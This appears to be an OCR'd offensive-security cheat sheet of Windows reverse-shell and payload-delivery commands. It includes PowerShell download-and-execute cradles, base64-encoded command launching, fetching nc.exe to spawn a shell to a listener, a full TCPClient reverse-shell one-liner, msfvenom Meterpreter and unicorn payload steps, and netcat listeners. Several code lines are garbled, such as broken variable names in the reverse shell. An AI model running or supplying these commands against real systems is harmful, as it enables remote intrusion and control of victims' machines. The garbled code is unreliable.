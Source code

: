 Invoke-Expression (UTF-16LE):

```
root@kali:$ echo -n "IEX (New-Object Net.WebClient).DownloadString('http://127.0.0.1/[1]')" | iconv -t UTF-16LE | base64 -w0; echo
PS > powershell -NoP -EncodedCommand <BASE64_COMMAND_HERE>
```

1. [github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

Invoke-WebRequest + `nc.exe` **[1]**:

```
PS > powershell -NoP IWR -Uri http://127.0.0.1/nc.exe -OutFile C:\Windows\Temp\nc.exe
PS > cmd /c C:\Windows\Temp\nc.exe 127.0.0.1 1337 -e powershell
```

1. [eternallybored.org/misc/netcat/](https://eternallybored.org/misc/netcat/)

System.Net.Sockets.TCPClient:

```
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.234",1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0,ytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendbac "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```


### Meterpreter

PowerShell + msfvenom:

```
root@kali:$ msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 LHOST=127.0.0.1 LPORT=1337 -f exe > met.exe
PS > (New-Object Net.WebClient).DownloadFile("met.exe", "$env:TEMP\met.exe")
...start metasploit listener...
PS > Start-Process "$env:TEMP\met.exe"
```

PowerShell + unicorn **[1]**:

```
root@kali:$ ./unicorn.py windows/meterpreter/reverse_https LHOST 443
root@kali:$ service postgresql start
root@kali:$ msfconsole -r unicorn.rc
PS > powershell -NoP IEX (New-Object Net.WebClient).DownloadString('powershell_attack.txt')
```

1. [github.com/trustedsec/unicorn](https://github.com/trustedsec/unicorn)



### Listeners

```
root@kali:$ {nc.tradentional|nc|ncat|netcat} [-6] -lvnp <LPORT>
```


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 space before)